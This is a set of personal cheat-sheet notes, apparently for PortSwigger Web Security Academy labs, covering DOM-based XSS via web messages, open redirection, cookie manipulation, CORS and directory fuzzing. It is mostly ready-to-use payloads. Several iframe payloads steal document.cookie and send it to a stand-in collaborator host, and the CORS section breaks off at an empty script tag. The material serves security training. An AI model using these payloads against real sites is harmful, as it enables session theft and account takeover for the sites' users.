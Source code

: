 ## DOM-based vulnerabilities
Use `DOM Invader`  
### Exploits
1. DOM XSS using web messages  
Notice that the home page contains an `addEventListener()` call that listens for a web message  
```
<iframe src="//0a8100fe032e3917c66ead67003c0020.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```
or
```
<iframe src="https://TARGET.net/" onload="this.contentWindow.postMessage('javascript:document.location=`https://Collaborator.com?c=`+document.cookie','*')">
```
When the iframe loads, the postMessage() method sends a web message to the home page. The event listener, which is intended to serve ads, takes the content of the web message and inserts it into the div with the ID ads. However, in this case it inserts our img tag, which contains an invalid src attribute. This throws an error, which causes the onerror event handler to execute our payload.  
2. DOM XSS using web messages and a JavaScript URL  
```
<iframe src="https://0a2d00d604a3acfbc67064610056003c.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//https:','*')">
```
3. DOM XSS using web messages and JSON.parse  
Target use web messaging and parses the message as JSON  
The vulnerable JavaScript code on the target using event listener that listens for a web message. This event listener expects a string that is parsed using JSON.parse()  
```
<iframe src="https://0a03009c03110946c0d1aea2003700e0.web-security-academy.net/" onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
Or:
<iframe src=https://TARGET.net/ onload='this.contentWindow.postMessage(JSON.stringify({
    "type": "load-channel",
    "url": "JavaScript:document.location='https://COLLABORATOR.com?c='+document.cookie"
}), "*");'>
```
At the end of the iframe onload values is a "*", this is to indicate the target is any.
4. DOM-based open redirection  
```
https://0ae900830459749cc2465788006000b5.web-security-academy.net/post?postId=7&url=https://exploit-0ab30006040d744dc2a7561101df00f9.exploit-server.net/exploit#
```
5. DOM-based cookie manipulation  
```
<iframe src="https://0a1100e803937b60c6874ab7003b00b5.web-security-academy.net/product?productId=1&'><script>print()</script>">
```
## CORS and info disclosure
For CORS check Access-Control-Allow-Credentials headers in responses  
For injo disc use smth of this:
```
dirb -u <url>
ffuf -u http://kek.com/FUZZ -w /usr/share/dirb/wordlists/big.txt -t 50 -c
gobuster dir -u http://kek.com -w /usr/share/dirb/wordlists/common.txt
```
### Exploits
1. CORS vulnerability with trusted insecure protocols  
Observe Access-Control-Allow-Credentials header in /accountDetails  
Put Origin: stock.lab-id header  
Go to your exploit server and create malicious payload to send admin's api key to ur server:
```
<script>
```